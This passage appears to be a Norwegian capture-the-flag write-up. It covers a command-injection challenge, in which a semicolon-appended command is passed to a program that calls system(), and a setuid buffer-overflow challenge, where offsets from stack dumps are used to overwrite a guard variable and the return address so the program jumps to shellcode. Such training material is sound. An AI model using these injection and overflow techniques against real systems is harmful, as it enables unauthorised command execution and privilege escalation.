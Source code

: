 ```c
        printf("Resultat:\n");
        system(cmd);
```
{: file="md5sum.c" }

Denne kommandoen blir kjørt av programmet med vårt input istedet for `%s`: `"/usr/bin/md5sum %s"`, som betyr at vi kan injecte kommandoer ved å legge til `;` og kommandoen vi vil kjøre etterpå. `./md5sum "FLAGG; cat FLAGG"` gir oss flagget.


# 1.4_overflow
Denne oppgaven demonstrerer en simpel buffer overflow hvor vi skal få programmet til å kjøre shellcode som som gir oss shell som brukeren `basic4` (siden overflow programmet er setuid som brukeren).

Vi må også sette en stack-variabel `above` til verdien `0x4847464544434241`, på grunn av en if-sjekk: `if (above == 0x4847464544434241)`.

## Passere if-sjekken
Vi starter med å finne offsettet til `above` variabelen. Hvis vi ser på stack-oversikten som blir printet til oss av programmet kan vi se at det er 40 bytes fra starten av bufferet til starten av `above` variabelen (5 rader på 8 bytes hver).
```
&above           00 00 00 00 00 00 00 00  |........|
0x7fff785ec400   00 00 00 00 00 00 00 00  |........|
0x7fff785ec3f8   00 00 00 00 00 00 00 00  |........|
0x7fff785ec3f0   00 00 00 00 00 00 00 00  |........|
0x7fff785ec3e8   00 00 00 00 00 00 00 00  |........|
&buffer          00 00 00 00 00 00 00 00  |........|
```

Det vil si at de neste 8 bytsene vi skriver til bufferet vil overskrive `above` variabelen. Vi vet at verdien til `above` må være `0x4847464544434241`, som er lik bokstanene `ABCDEFGH` i ASCII.
Første del av inputet vårt blir dermed
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGH
```

## Kjøre shellcode
Fra stack-oversikten kan vi se at det er 24 bytes (3 rader på 8 bytes hver) etter slutten av `above` variabelen til starten av returadressen.
```
stored rip       ca 31 7e 5f ab 7f 00 00  |.1~_....|
stored rbp       02 00 00 00 00 00 00 00  |........|
0x7ffc00cc1cf8   00 00 00 00 00 00 00 00  |........|
0x7ffc00cc1cf0   00 1e cc 00 fc 7f 00 00  |........|
&above           41 42 43 44 45 46 47 48  |ABCDEFGH|
```

Når vi har lagt til de 24 bytsene (f.eks 24 B'er) vil de 8 neste bytsene vi skriver overskrive returadressen på stacken, som vil gjøre at programmet ved neste `return` vil hoppe til adressen vi har skrevet. Fra kildekoden til `overflow` programmet vet vi at det er shellcode som vi vil kjøre på addressen `0x303030303030`. Dette tilsvarer ASCII-bokstavene `000000`, så da kan vi legge til 6 nuller etter de 24 B'ene vi la til tidligere.
